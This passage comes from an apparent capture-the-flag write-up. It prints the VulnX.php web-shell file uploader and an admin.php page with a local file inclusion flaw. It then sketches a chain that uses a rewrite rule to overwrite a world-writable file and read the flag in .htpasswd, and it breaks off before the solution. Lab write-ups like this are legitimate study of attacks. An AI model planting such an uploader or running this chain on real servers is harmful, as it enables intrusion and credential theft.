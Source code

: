 Found that the file /usr/share/vulnx/shell/VulnX.php can be exploited to upload

```php
<html>
</html>

<?php

error_reporting(0);
set_time_limit(0);

if($_GET['Vuln']=="X"){
echo "<center><b>Uname:".php_uname()."<br></b>"; 
echo '<font color="black" size="4">';
if(isset($_POST['Submit'])){
    $filedir = "uploads/"; 
    $maxfile = '2000000';
    $mode = '0644';
    $userfile_name = $_FILES['image']['name'];
    $userfile_tmp = $_FILES['image']['tmp_name'];
    if(isset($_FILES['image']['name'])) {
        $qx = $filedir.$userfile_name;
        @move_uploaded_file($userfile_tmp, $qx);
        @chmod ($qx, octdec($mode));
echo" <a href=$userfile_name><center><b>Uploaded Success ==> $userfile_name</b></center></a>";
}
}
else{
echo'<form method="POST" action="#" enctype="multipart/form-data"><input type="file" name="image"><br><input type="Submit" name="Submit" value="Upload"></form>';
}
echo '</center></font>';

}
?>
```

However, the owner of these folders is root. While if using the web to upload, it will be in the ww-data user. However, the file /usr/share/vulnx/shell/uploads/shell.html is a "world writable" file.

![image](https://hackmd.io/_uploads/rJ3T5oslye.png)

=> We now can use `RewriteRule ^/website-(.*).doc$ /$1.html` and VulnX.php to upload a file to overwrite the shell.html file. But how to use the uploaded file to read the flag at `.htpasswd`.

Here the admin.php file

```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Admin Page</title>
</head>
<body>
<h1>Welcome to the Admin Page</h1>

<?php
error_reporting(0);

if (isset($_GET['pages']) && !empty($_GET['pages']))
{
$page = "./pages/" . $_GET['pages'] . ".html";
include($page);
}
```